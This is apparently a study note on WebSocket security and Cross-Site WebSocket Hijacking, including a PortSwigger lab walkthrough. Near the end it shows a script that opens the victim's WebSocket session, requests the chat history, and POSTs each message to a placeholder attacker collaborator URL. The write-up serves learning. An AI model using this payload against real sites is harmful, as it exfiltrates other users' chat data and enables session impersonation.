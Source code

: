 # WebSockets

Websockets is a communication protocol that provide a full-duplex (two-way) interactive communication session between the user's browser and a server. With this, we can send messages to a server and receive responses without having to poll the server for a reply.

This is commonly used in the 'chat' feature in websites, such as raising enquiries to a chatbot or customer service employee. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

## Websocket

This is how the connection is typically established:

<figure><img src="../../.gitbook/assets/image (4000).png" alt=""><figcaption></figcaption></figure>

A WebSocket handshake request can be as follows:

```http
GET /chat HTTP/1.1
Host: example.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
# Taken from HackTricks
```

The website's response can be as such:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
# Taken from HackTricks
```

When the protocols are switched, a channel is opened for bi-directional communications and would remain open until either side closes the channel and the connection terminates. This no longer uses the `http://` wrapper, and instead uses `ws://`.

Traffic sent through the socket can be manipulated using Burpsuite and payloads can be added. Depending on how the websocket application processes information, vulnerabilities like XSS, SQLI and Command Injection are all possible.

The most common attack however is **Cross-Site Websocket hijacking**, which involves exploitation of the cookie that is used to identify a user. Sometimes, these cookies could be tagged to each unique user, and stealing it allows for impersonation of another user and reading of sensitive information.

## Example

This is the lab I completed:

{% embed url="https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab" %}

In this lab, there is a chatbot that relates each user to his websocket session via a sent cookie. The chatbot then sends back the entire history of each session once the word 'READY' is sent to it via websockets.

We can manipulate this by sending a basic XSS script that would retrieve the information and send it to our own attack server, in this case BurpSuite Collaborator is used.

```markup
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Then, our Burpsuite host would receive a callback that would contain all the data from another user's session.